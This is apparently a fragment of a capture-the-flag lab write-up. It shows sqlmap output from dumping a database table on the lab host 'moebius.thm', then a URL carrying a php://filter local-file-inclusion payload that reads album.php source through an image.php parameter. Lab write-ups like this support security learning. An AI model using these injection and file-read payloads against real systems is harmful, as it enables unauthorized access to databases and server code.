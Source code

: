 Table: images
[16 entries]
+----------------------------+
| path                       |
+----------------------------+
| /var/www/images/cat1.jpg   |
| /var/www/images/cat10.webp |
| /var/www/images/cat11.webp |
| /var/www/images/cat12.webp |
| /var/www/images/cat13.jpg  |
| /var/www/images/cat14.webp |
| /var/www/images/cat15.webp |
| /var/www/images/cat16.webp |
| /var/www/images/cat2.jpg   |
| /var/www/images/cat3.jpg   |
| /var/www/images/cat4.jpg   |
| /var/www/images/cat5.avif  |
| /var/www/images/cat6.avif  |
| /var/www/images/cat7.png   |
| /var/www/images/cat8.webp  |
| /var/www/images/cat9.webp  |
+----------------------------+

[18:59:04] [INFO] table 'web.images' dumped to CSV file '/home/alvan/.local/share/sqlmap/output/moebius.thm/dump/web/images.csv'                                                                                                        
[18:59:04] [INFO] fetched data logged to text files under '/home/alvan/.local/share/sqlmap/output/moebius.thm'
[18:59:04] [WARNING] your sqlmap version is outdated

[*] ending @ 18:59:04 /2025-08-15/



        http://moebius.thm/image.php?hash=ec6e518b7e39db98affbf2bf2c671d469639503d4fee97bf7cf0f0a1319075d9&path=php://filter/convert.base64-encode/resource=album.php
